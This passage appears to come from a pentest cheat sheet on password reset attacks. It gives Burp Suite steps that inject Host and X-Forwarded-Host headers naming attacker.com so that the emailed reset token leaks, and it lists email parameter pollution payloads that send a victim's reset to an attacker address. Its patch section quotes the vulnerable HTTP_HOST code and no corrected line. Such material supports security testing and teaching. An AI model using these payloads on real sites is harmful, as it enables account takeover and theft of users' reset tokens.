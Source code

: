 * Intercept the password reset request in Burpsuite
* Add following header or edit header in burpsuite(try one by one)

```
Host: attacker.com
```

```
 Host: target.com
 X-Forwarded-Host: attacker.com
```

```
 Host: target.com
 Host: attacker.com
```

* Check if the link to change the password inside the email is pointing to attacker.com

### Patch

Use `$_SERVER['SERVER_NAME']` rather than `$_SERVER['HTTP_HOST']`

```php
$resetPasswordURL = "https://{$_SERVER['HTTP_HOST']}/reset-password.php?token=12345678-1234-1234-1234-12345678901";
```

### Impact

The victim will receive the malicious link in their email, and, when clicked, will leak the user’s password reset link / token to the attacker, leading to full account takeover.

### Reference:

* https://hackerone.com/reports/226659
* https://hackerone.com/reports/167631
* https://www.acunetix.com/blog/articles/password-reset-poisoning/
* https://pethuraj.com/blog/how-i-earned-800-for-host-header-injection-vulnerability/
* https://medium.com/@swapmaurya20/password-reset-poisoning-leading-to-account-takeover-f178f5f1de87

## Password Reset With Manipualating Email Parameter

### Exploitation

* Add attacker email as second parameter using &

```php
POST /resetPassword
[...]
email=victim@email.com&email=attacker@email.com
```

* Add attacker email as second parameter using %20

```php
POST /resetPassword
[...]
email=victim@email.com%20email=attacker@email.com
```
